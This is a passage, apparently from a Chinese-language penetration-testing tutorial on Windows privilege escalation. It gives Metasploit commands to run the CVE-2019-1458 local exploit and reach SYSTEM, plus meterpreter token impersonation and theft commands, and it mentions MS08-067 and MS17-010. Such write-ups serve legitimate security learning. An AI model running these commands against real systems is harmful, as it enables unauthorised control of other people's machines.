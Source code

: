 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210112154856-9fa401e2-54aa-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210112154856-9fa401e2-54aa-1.jpg)

*   重复前面使用`local_exploit_suggester`那一步，可以看到现在查询的是 64 位的 Exp

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112154856-9fe0279e-54aa-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210112154856-9fe0279e-54aa-1.jpg)

*   这里选择选个比较新的`CVE_2019_1458`

```
msf> use exploit/windows/local/cve_2019_1458_wizardopium 
msf> set SESSION <session_id>
msf> run
meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112154857-a019b5d6-54aa-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210112154857-a019b5d6-54aa-1.jpg)

### 令牌操纵

*   `incognito`假冒令牌

```
meterpreter> use incognito                                  
meterpreter> list_tokens -u                          # 查看可用的token
meterpreter> impersonate_token 'NT AUTHORITY\SYSTEM' # 假冒SYSTEM token
meterpreter> execute -f cmd.exe -i –t                # -t使用假冒的token 执行
meterpreter> rev2self                               # 返回原始token
```

*   `steal_token`窃取令牌

```
meterpreter> ps                 # 查看进程
meterpreter> steal_token <PID>  # 从指定进程中窃取token
meterpreter> drop_token         # 删除窃取的token
```

### SMB 系列 RCE

> 基本绝迹

*   MS08-067
*   MS17-010

参考
--

*   [系统提权入门思维导图](https://huntingday.github.io/img/Localprivilege.png)
*   [MySQL 之 UDF 提权](https://www.cnblogs.com/3ichae1/p/12909952.html)
*   [内网渗透之——MySQL 数据库提权之——UDF 提权](https://blog.csdn.net/wsnbbz/article/details/104802100)
*   [MySQL 提权总结](https://gwjczwy.github.io/2020/07/20/mysql%E6%8F%90%E6%9D%83%E6%80%BB%E7%BB%93/)
*   [Windows 下三种 MySQL 提权剖析](https://xz.aliyun.com/t/2719#toc-14)
*   [Metasploit 的一些提权方法](https://blog.csdn.net/qq_42349134/article/details/100657705)